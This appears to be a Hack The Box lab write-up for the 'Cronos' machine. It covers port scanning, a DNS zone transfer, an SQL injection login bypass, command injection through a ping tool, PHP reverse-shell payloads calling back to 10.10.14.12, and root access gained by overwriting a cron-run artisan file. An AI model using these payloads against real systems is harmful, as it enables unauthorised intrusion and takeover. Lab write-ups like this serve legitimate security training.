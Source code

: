 # MEDIUM - CRONOS

# 1. Enumeration

## 1.1 Open Ports

I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using `-p-` to scan all ports. Given that it was a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: `--min-rate 5000`, `-sS` for a SYN scan, `-Pn` to skip the host discovery stage, `-n` to skip reverse DNS resolution and `-T5` for higher speed.

![image.png](MEDIUM-CRONOS/image.png)

![image.png](MEDIUM-CRONOS/image%201.png)

The scan revealed the following open ports:

- **SSH** on port 22.
- **DNS** on port 53.
- **HTTP** on port 80.

Next, I performed a more detailed scan on those ports with service version detection (`-sV`) and used the Nmap Scripting Engine (NSE) with default scripts (`-sC`). I saved the output for reference using the `-oN` flag.

![image.png](MEDIUM-CRONOS/image%202.png)

## 1.2 Web Enumeration

Then I ran `gobuster` to brute force hidden directories but I couldn´t find any files or directories. Navigating to the site I found the default apache2 page.

![image.png](MEDIUM-CRONOS/image%203.png)

![image.png](MEDIUM-CRONOS/image%204.png)

Since the scan revealed a DNS service running on the target, I used `nslookup` to verify that the target, `10.10.10.13`, was indeed the default DNS server on the network. Additionally, I queried the server to identify the domain it was associated with. The response confirmed that the target was resolving to `ns1.cronos.htb`, indicating that the target was handling DNS requests for the `cronos.htb` domain.

![image.png](MEDIUM-CRONOS/image%205.png)

After identifying the DNS server, I used `dig` to attempt a zone transfer (`AXFR`) on the `cronos.htb` domain, with the target as the DNS server (`10.10.10.13`). The zone transfer was successful and revealed some subdomains. I added those subdomains to the `/etc/hosts` file and then navigated to each of them.

![image.png](MEDIUM-CRONOS/image%206.png)

![image.png](MEDIUM-CRONOS/image%207.png)

As `cronos.htb` didn´t contain anything which seemed to be useful at first, I kept going.

![image.png](MEDIUM-CRONOS/image%208.png)

# 2. Gaining Access

Navigating to admin.cronos.htb revealed a login panel. I intercepted the login POST request using `BurpSuite` and sent it to Repeater to test for potential SQL injection vulnerabilities. After trying various payloads, I successfully bypassed the authentication using the payload `' OR '1'='1'-- -`. This SQL injection tricked the application into granting access by always evaluating the condition as true.

---

![image.png](MEDIUM-CRONOS/image%209.png)

![image.png](MEDIUM-CRONOS/image%2010.png)

![image.png](MEDIUM-CRONOS/image%2011.png)

After gaining access to the login panel, I discovered a tool that allowed me to execute ping and traceroute commands against any IP address I entered. Upon pressing the execute button, the output displayed was identical to the Linux command line output for the `ping` command. This behavior suggested the possibility of a Remote Code Execution vulnerability. To test this, I tried appending `|whoami` to the input, which successfully executed the command and returned the current user name.

![image.png](MEDIUM-CRONOS/image%2012.png)

![image.png](MEDIUM-CRONOS/image%2013.png)

Using the payload `| php -r '$sock=fsockopen("10.10.14.12",5555);exec("/bin/sh -i <&3 >&3 2>&3");'`, I established a reverse shell connection to my command line. This allowed me to execute commands on the target machine and retrieve the user flag.

![image.png](MEDIUM-CRONOS/image%2014.png)

![image.png](MEDIUM-CRONOS/image%2015.png)

# 3. Privilege Escalation

I tried checking if I had any sudo permissions but I needed the password to do so. So I decided to start a HTTP server with Python and serve `pspy64` to run it on the target and find some possible services running in the background. After some time `/bin/sh -c php /var/www/laravel/artisan` was run  as root so I checked if I had write permissions on it and I did. 

I attempted to check for any sudo permissions but found that I needed the password to do so. After that I started a HTTP server using Python to serve the `pspy64` tool, and ran it to identify processes running in the background without needing elevated privileges. After some time, I noticed that the command `/bin/sh -c php /var/www/laravel/artisan` was executed as root. I then checked for write permissions on this file and confirmed that I had the ability to modify it.

![image.png](MEDIUM-CRONOS/image%2016.png)

![image.png](MEDIUM-CRONOS/image%2017.png)

![image.png](MEDIUM-CRONOS/image%2018.png)

![image.png](MEDIUM-CRONOS/image%2019.png)

Using `echo -e '#!/usr/bin/env php\n<?php\n$sock = fsockopen("10.10.14.12", 5555);\nexec("/bin/sh -i <&3 >&3 2>&3");' > artisan` I generated a new `artisan` file containing the PHP reverse shell code. After some time, this file was executed again as root. As a result, I gained root permissions and was able to retrieve the root flag.

![image.png](MEDIUM-CRONOS/image%2020.png)

![image.png](MEDIUM-CRONOS/image%2021.png)
